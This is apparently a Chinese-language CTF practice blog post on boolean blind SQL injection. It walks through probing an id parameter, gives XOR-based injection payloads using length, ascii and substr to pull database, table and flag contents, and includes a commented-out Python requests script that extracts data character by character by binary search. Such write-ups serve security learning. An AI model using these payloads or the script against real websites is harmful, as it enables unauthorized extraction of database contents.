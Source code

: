 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      对于多种sqli的练习与总结(二)               # 标题 
subtitle:   实操加强对sqli的熟悉度
date:       2020-04-02             # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


## 0x00布尔盲注：
首先进入页面，比较特殊，通常来说都是全都点一下吧，然后框框里的数字点的时候返回的url`/?id=1`引起我的注意，但是我们还是先测试一下登录功能：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdffeunetaj30lg0etn3o.jpg)  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdffexlr91j30jk0fvq8v.jpg)  
居然用户名出现单引号都直接被揪出来了，那么在这里猜想一下，是否对用户名和密码都进行了严格的过滤，fuzz一下吧：  
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdfff4l275j30zy0mbq5u.jpg)  
恩看来这里sql注入的可能性很低了，此时那几个框框的url倒是值得去尝试一下，首先填入id=6：  
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdfff7lkyhj30kz0dxjwh.jpg)  
咦显示不存在这个表，有点意思，继续测试填入id=7：  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdfffl9exfj30l50fhafu.jpg)  
这个时候回显又不同了，继续测试一下8/9/10，不存在的话会返回error页面，存在的话会返回正常页面：前面提到表，难道是根据id查表，然后回显内容嘛？
鉴于习惯，测试一下id=0：  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdfffl9exfj30l50fhafu.jpg)  
收集到的信息为，id=0：error！！！，这个时候条件符合我们的布尔盲注了，payload构造返回1，就是正常页面，返回0，就是error！！！页面。那么接下来尝试一下子盲注：  
构造payload：`1^1^1`以及`1^0^1`：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdfffpvof8j30dh07f3yl.jpg)
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdffft7r6lj30cl08it8w.jpg)  
这下子好了，布尔盲注可以进行下一步了：    
手工进行一下`1^(length(select(database())>n)^1`:   
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdfffwj2a4j30dz05vdft.jpg)   
咦怎么不行，那就试试这个语句：`1^(length(database())>1^1`：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdffg3cgstj30g406vmxa.jpg)   
好成功了，写个小脚本来爆破一下数据库名长度：  
```
# for i in range(1,20):
    #     temp["id"] = "1^(length(database())>"+str(i)+")^1"
    #     r=requests.get(url,temp)
    #     if "ERROR!!!" in r.text:
    #         print("length:"+str(i))
    #         break;
```
结果为：length=4   
那么接下来就开始爆破库名，字段名，：  
payload构造为：    
`1^(ascii(substr((select(database())),%d,1))>%d)^1`  
下面语句稍微修改一下即可爆字段名了：  
`1^(ascii(substr((selcect(group_concat(table_name))from(information_schema.tables)where(table_schema='geek'))),i,1))>m)^1`  
下面的为二分法爆表的字段内容,由于用来做过其他题目，可能部分地方需要自己恰当修改一下，可参考思路(get和post差不多），同样上面爆破字段名，表名，数据库名也用二分法快速爆破：  
```
url = "http://xxxxxxxxx/xxxxx"
temp = {"id":""}
tablename=''
# for i in range(1,50):
    #     low = 31
    #     high =128
    #     mid = (low+high)//2
    #     while(low<high):
    #         temp['id'] = "1^(ascii(substr((select(flag)from(flag)),%d,1))>%d)^1" %(i,mid)
    #         r = requests.post(url,data=temp)
    #         if "Hello" in r.text:
    #             low=mid+1
    #         else:
    #             high=mid
    #         mid = (low + high) // 2
    #     tablename+=chr(mid)
    #     print(chr(mid))
    # print(tablename)
    ```
**总结一下：**  
 > 本次练习中，用了sql布尔盲注，盲注思维得到了一定的训练，旨在能够准确找到盲注点，通过页面响应判断是否存在以及寻找页面识别点，这样就能进行下去，如果盲注部分使用词汇被过滤，可以查找一下替代的词语，
 许多大表哥也有总结，自己要善于去汲取人家的精华和总结，这样能让自己更快的学习到相关的知识，而不是盲目的去试，到了一定程度相信自己也能很好的掌握技巧。

